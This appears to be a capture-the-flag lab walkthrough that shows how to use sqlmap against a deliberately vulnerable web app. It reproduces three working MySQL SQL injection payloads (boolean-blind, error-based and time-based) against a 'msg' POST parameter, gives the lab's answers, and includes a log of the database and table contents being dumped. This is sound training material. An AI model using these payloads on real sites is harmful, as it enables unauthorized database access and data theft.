 To demonstrate how to use sqlmap to check for vulnerabilities and dump table data, I will be walking you through an example web app. Deploy the machine and let's get started!

Note: This task will be using sqlmap, however you are welcome to try to exploit it manually. It outputs the full SQL query on every attempt, so you can know what mysql is trying to do!

1. Set the url to the machine ip, and run the command

> 10.10.111.247

2. How many types of sqli is the site vulnerable too?

```
Parameter: msg (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: msg=SGSU' RLIKE (SELECT (CASE WHEN (7767=7767) THEN 0x53475355 ELSE 0x28 END))-- ikzk

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: msg=SGSU' AND GTID_SUBSET(CONCAT(0x716a707671,(SELECT (ELT(7764=7764,1))),0x71766b6271),7764)-- dwJg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: msg=SGSU' AND (SELECT 2733 FROM (SELECT(SLEEP(5)))pVxB)-- ALMj
```

`3`

3. Dump the database.

`No answer needed`

4. What is the name of the database?

```
[12:44:19] [INFO] fetching current database
[12:44:19] [INFO] retrieved: 'tests'
[12:44:19] [INFO] fetching tables for database: 'tests'
[12:44:19] [INFO] retrieved: 'lol'
[12:44:19] [INFO] retrieved: 'msg'
[12:44:19] [INFO] fetching columns for table 'msg' in database 'tests'
[12:44:20] [INFO] retrieved: 'msg'
[12:44:20] [INFO] retrieved: 'varchar(100)'
[12:44:20] [INFO] fetching entries for table 'msg' in database 'tests'
[12:44:20] [INFO] retrieved: 'msg'
[12:44:20] [INFO] retrieved: 'test'
Database: tests
Table: msg
[2 entries]
+------+
| msg  |
+------+
| msg  |
| test |
+------+
```
